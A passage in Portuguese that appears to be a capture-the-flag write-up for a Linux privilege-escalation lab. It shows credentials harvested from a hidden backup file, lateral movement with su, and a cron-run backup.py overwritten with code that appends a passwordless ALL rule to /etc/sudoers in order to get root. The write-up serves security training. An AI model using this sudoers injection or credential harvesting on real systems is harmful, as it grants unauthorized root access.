






# Privesc Linux - 2

O laboratório já nos fornece a credencial para acesso via SSH.

```bash
user: ctfplayer
password: ctfplayer2026
ssh ctfplayer@<IP_MACHINE>
```



Durante a enumeração dos diretórios, identificamos arquivos e diretórios ocultos, entre eles `.config`. Ao acessar esse diretório, encontramos o subdiretório `app`, no qual identificamos um arquivo oculto chamado `.credentials.bak`.



Utilizando o comando `cat`, realizamos a leitura do conteúdo e identificamos a credencial `sysadmin`.

```bash
cat ~/.config/app/.credentials.bak
```

```
# Serviço: servidor-interno
# Usuário: sysadmin
# Senha: S3********
# TODO: migrar para vault
```

Utilizando a credencial realizamos a movimentação lateral para o usuário `sysadmin`. Após obtermos acesso, listamos os arquivos e diretórios e identificamos o arquivo `user.txt`. Ao realizar a leitura de seu conteúdo, encontramos nossa primeira flag.



```bash
su sysadmin
cd ~
cat user.txt
# hackingclub{l4t...}
```

Verificando `notes.txt` do `sysadmin`, encontramos:



```bash
cat notes.txt
```

```
TAREFAS:
- [x] Configurar backup automático
- [ ] Revisar permissões dos scripts em /opt/scripts
- [ ] Verificar se o cron está funcionando (checar /var/log/backup.log)
- [ ] Remover credenciais hardcoded

IMPORTANTE: O backup roda automaticamente. Não modificar sem avisar o time.
```

Sabemos que existe um script de backup automático em `/opt/scripts` que:

- roda via `cron`
- Logs em `/var/log/backup.log`

Existem várias formas de explorar (obter Root), uma delas é adicionar `sysadmin` ao `sudoers`.

Vamos alterar o conteúdo de `backup.py` para:

```python
import os
os.system("echo 'sysadmin ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers")
```



Aguardar ~1 minuto e executar o comando `sudo su`

```bash
sudo su
whoami
# root
```



Com o privilégio root navegamos e conseguimos obter nossa flag:

```bash
cat /root/root.txt
# hackingclub{cr0t...}
```

---

## Arquivos complementares

- [METHODOLOGY.md](METHODOLOGY.md) — passos detalhados e comandos
- [LEARNINGS.md](LEARNINGS.md) — lições aprendidas
- [CONCLUSION.md](CONCLUSION.md) — resumo e flags
